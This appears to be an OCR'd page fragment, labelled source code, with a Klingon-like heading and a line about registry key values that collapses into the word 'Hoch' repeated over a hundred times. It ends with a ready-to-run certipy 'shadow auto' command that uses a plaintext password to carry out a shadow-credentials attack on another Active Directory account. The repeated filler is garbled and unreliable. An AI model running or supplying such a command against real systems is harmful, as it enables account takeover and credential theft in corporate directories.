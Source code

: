 ### Qap

Qa'legh registry key values Hoch 'ej 'ej Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch
```bash
certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane
```
